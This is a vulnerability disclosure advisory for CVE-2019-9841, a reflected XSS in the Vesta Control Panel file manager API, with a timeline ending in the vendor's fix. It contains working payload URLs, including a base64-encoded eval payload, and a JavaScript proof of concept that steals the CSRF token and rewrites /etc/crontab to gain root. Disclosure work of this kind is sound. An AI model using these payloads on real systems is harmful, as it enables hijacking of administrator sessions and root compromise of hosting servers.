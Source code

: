 ```yaml
---
title: '[CVE-2019-9841] Vesta Control Panel 0.9.8-23 — Reflected XSS in file manager API'
description: The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application.
tags: [CVE, Vesta Control Panel, XSS]
---
```


|||
|--------------------:+----------------------------------------------------------|
|      **Discovered** | 2019-03-13                                               |
|          **Author** | [{{ site.author.name }}](mailto:{{ site.author.email }}) |
|         **Product** | [Vesta Control Panel](https://vestacp.com/)              |
| **Tested versions** | 0.9.8-23                                                 |
|                     | *(prior versions may also be affected)*                  |
|       **CVE entry** | [CVE-2019-9841][cve]                                     |
|---------------------+----------------------------------------------------------|
{:#advisory-header}

## Abstract

The insufficient output sanitization and inappropriate content type of the responses of the file manager API allows to run arbitrary JavaScript code in the context of the web application. This allows an attacker to impersonate the users of the control panel by tricking them to follow a specially crafted link while authenticated to the web application.

VestaCP users are actual system users and they have the right to manage several services on the hosting server, for example they can create and manage new databases, edit their own crontab, create and manage new mail accounts, etc. They are created by the administrator to whom VestaCP grants full access. This means that triggering the XSS from an administration session could allow an attacker to obtain root access on the hosting server.

## Details

A PHP script located at `/file_manager/fm_api.php` supposedly provides the API for the file managers plugins that can be installed in VestaCP. The script performs the requested operation then returns the result as a JSON string using `text/html` as the content type, often including an error message that reflects some of the provided arguments. By triggering an error using arguments that include a specially crafted HTTP payload it is possible to run arbitrary JavaScript code. For example:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=alert(1)+/>
```

Produces:

```json
{"result":false,"message":"Error: invalid path \/home\/admin\/<img src=x onerror=alert(1) \/>"}
```

Since the output is a JSON string, some characters are `\`-escaped. It is possible to overcome this limitation by deploying the payload as a Base64 string, for example the above is equivalent to:

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('YWxlcnQoMSk='))+/>
```

This works out-of-the-box with Firefox and Edge, while Safari and Chrome block the script execution as they detect a possible XSS attempt. Hopefully some smarter payload will be able to bypass their XSS auditors.

## PoC: from XSS to root access

VestaCP acts as a wrapper around several system-level operations, the easiest way for an administrator to run a command as `root` is probably to alter the `/etc/crontab` file via the `/edit/server/cron/` page.

For example this cron job creates a file in the web server root as superuser:

```
* * * * * root id >/usr/local/vesta/web/proof
```

Most of the pages in the VestaCP web application employ a CSRF token, so in order to submit the POST form, the token must be obtained by parsing the HTML.

The following JavaScript function replaces `/etc/crontab` and restarts the cron daemon:

```js
(async () => {
    // fetch the CSRF token
    const request = await fetch('/', {credentials: 'include'});
    const text = await request.text();
    const token = text.match(/token="([^"]+)"/)[1];

    // prepare the payload
    const payload = 'id >/usr/local/vesta/web/proof';
    const config = encodeURIComponent(`* * * * * root ${payload}\n`);

    // replace the cron config file
    fetch('/edit/server/cron/', {
        credentials: 'include',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: `token=${token}&v_config=${config}&v_restart=on&save=Save`
    });
})();
```

For completeness, this is the URL that the victim administrator needs to follow in order to trigger the PoC:

<!-- C-u M-| terser | base64 -w0 | sed 's/+/%2b/g' -->

```
https://target.com:8083/file_manager/fm_api.php?action=check_file_type&dir=<img+src=x+onerror=eval(atob('KGFzeW5jKCk9Pntjb25zdCByZXF1ZXN0PWF3YWl0IGZldGNoKCIvIix7Y3JlZGVudGlhbHM6ImluY2x1ZGUifSk7Y29uc3QgdGV4dD1hd2FpdCByZXF1ZXN0LnRleHQoKTtjb25zdCB0b2tlbj10ZXh0Lm1hdGNoKC90b2tlbj0iKFteIl0rKSIvKVsxXTtjb25zdCBwYXlsb2FkPSJpZCA%2bL3Vzci9sb2NhbC92ZXN0YS93ZWIvcHJvb2YiO2NvbnN0IGNvbmZpZz1lbmNvZGVVUklDb21wb25lbnQoYCogKiAqICogKiByb290ICR7cGF5bG9hZH1cbmApO2ZldGNoKCIvZWRpdC9zZXJ2ZXIvY3Jvbi8iLHtjcmVkZW50aWFsczoiaW5jbHVkZSIsbWV0aG9kOiJQT1NUIixoZWFkZXJzOnsiY29udGVudC10eXBlIjoiYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIn0sYm9keTpgdG9rZW49JHt0b2tlbn0mdl9jb25maWc9JHtjb25maWd9JnZfcmVzdGFydD1vbiZzYXZlPVNhdmVgfSl9KSgpOwo='))+/>
```

After one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Timeline

2019-03-15
: Disclosed to the VestaCP team.

2019-03-15
: MITRE assigns [CVE-2019-9841][cve] to this vulnerability.

2019-04-12
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/c28c5d29a3c61bc8110c11349e3f2309cd537cfa) the vulnerability.

2019-04-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/e674bf14fd401f419223f1dd06a6e381a3c188a2) version 0.9.8-24.

[cve]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9841
